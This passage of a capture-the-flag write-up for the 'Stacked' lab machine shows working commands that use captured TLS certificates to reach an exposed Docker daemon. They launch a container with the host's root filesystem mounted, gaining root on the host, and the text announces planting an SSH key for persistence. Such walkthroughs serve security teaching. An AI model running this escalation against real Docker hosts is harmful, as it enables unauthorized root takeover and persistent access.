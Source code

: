 ## Mount host

Tranfsering the certificates over to our machine and trying to interact with docker it needs another hostname for which the cert is valid so we add `stacked` to our `/etc/hosts`.

```
$ docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=stacked.htb:2376 container ls
error during connect: Get "https://stacked.htb:2376/v1.24/containers/json": x509: certificate is valid for localhost, stacked, not stacked.htb
```

Now we can list all the contiainers.

```
$ docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=stacked:2376 container ls
CONTAINER ID   IMAGE                               COMMAND                  CREATED       STATUS       PORTS                                                                                                  NAMES
4cc5541e168c   0601ea177088                        "sh"                     8 hours ago   Up 8 hours   4566/tcp, 4571/tcp, 8080/tcp                                                                           eager_varahamihira
531ad09e29d7   localstack/localstack-full:0.12.6   "docker-entrypoint.sh"   8 hours ago   Up 8 hours   127.0.0.1:443->443/tcp, 127.0.0.1:4566->4566/tcp, 127.0.0.1:4571->4571/tcp, 127.0.0.1:8080->8080/tcp   localstack_main
```

The plan now is to create a container with the host file system mounted and `sh` set as entrypoint. First we list all availabe images to create our container.

```
$ docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=stacked:2376 image ls
REPOSITORY                   TAG          IMAGE ID       CREATED        SIZE
localstack/localstack-full   0.12.6       7085b5de9f7c   2 months ago   888MB
localstack/localstack-full   <none>       0601ea177088   7 months ago   882MB
lambci/lambda                nodejs12.x   22a4ada8399c   7 months ago   390MB
lambci/lambda                nodejs10.x   db93be728e7b   7 months ago   385MB
lambci/lambda                nodejs8.10   5754fee26e6e   7 months ago   813MB
```

Using the second image we are able to create a container with the root of the host filesystem mounted in it and connect to it.

```
$ docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=stacked:2376 run -v /:/host -it --entrypoint sh 0601ea177088
/opt/code/localstack # cd /ho
home/  host/
/opt/code/localstack # cd /host/root/
```

We could already read the flag now but let's quickly add our public ssh key to root's authorized keys.
